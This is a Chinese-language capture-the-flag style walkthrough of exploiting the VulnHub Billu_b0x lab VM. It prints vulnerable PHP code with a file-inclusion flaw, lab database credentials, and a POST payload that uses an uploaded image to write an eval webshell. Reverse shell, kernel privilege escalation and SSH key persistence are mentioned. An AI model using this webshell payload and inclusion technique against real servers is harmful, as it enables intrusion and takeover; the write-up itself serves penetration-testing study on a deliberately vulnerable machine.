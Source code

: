 ### 环境搭建
>[https://download.vulnhub.com/billu/Billu_b0x.zip](https://download.vulnhub.com/billu/Billu_b0x.zip)   
hash:ebcb435522917a67b54274900b37c6af

### 开搞
#### 首先nmap开路    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_1.png)    
访问```http://192.168.14.149/```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_2.png)
>向世界上最帅老男人致敬

查看HTML源码并没什么*用，SQLmap无果后遍历目录       
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_3.png)    
访问```http://192.168.14.149/test.php``` 报错缺少参数```file```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_4.png)    
尝试POST提交```file=test.php```此处为任意文件下载，将目录遍历出的文件全部下载开始代码审计。     
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_5.png)    

#### 审计

主页登录成功后跳转至```panel.php```查看panel.php源码第33行起，当```load```为非add与show时可构造任意文件包含攻击   
```
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	
	if($choice==='add')
	{
       		include($dir.'/'.$choice.'.php');
			die();
	}
	
        if($choice==='show')
	{
        
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
}
```

文件上传验证文件后缀与文件类型，经测试无法构造绕过。
```
$image=array('jpeg','jpg','gif','png');
	if(in_array($r,$image))
	{
		$finfo = @new finfo(FILEINFO_MIME); 
	$filetype = @$finfo->file($_FILES['image']['tmp_name']);
		if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
```
#### 利用
```c.php```中找到数据库账号密码```billu/b0x_billu```,登录phpmyadmin找到用户名口令    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_6.png)    
登录成功后上传图片马到```uploaded_images/```目录下构造payload如下
```
POST /panel.php
continue=&load=uploaded_images/trial.png&trial=file_put_contents('test.php','<?php @eval($_POST[test]);?>');
```    
菜刀连接```uploaded_images/test.php```查看版本    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_7.png)    
反弹shell     
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_8.png)    
提权    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_9.png)    
[https://www.exploit-db.com/exploits/37292/](https://www.exploit-db.com/exploits/37292/)     
写入免密密匙  然后。。就没有然后了
